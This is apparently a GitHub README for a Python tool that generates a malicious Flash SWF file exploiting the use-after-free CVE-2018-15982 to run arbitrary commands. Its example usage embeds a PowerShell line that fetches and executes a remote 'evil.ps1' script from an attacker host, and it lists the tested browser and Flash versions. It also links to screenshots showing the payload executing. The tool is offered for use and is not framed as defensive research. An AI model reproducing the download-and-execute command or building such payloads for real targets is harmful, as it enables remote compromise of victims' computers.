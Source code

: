 # Adobe Flash CVE-2018-15982

This script creates a swf payload for CVE-2018-15982, which is based off of the PoC from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982



Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.56.101/evil.ps1')" downloadtest.swf```
  


Tested on: 
* Windows 10 Enterprise 10.0.17134, Internet Explorer 11.285.17134.0
* Adobe Flash Player 31.0.0.153


## Example


Create payload and confirm execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/create-and-confirm.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

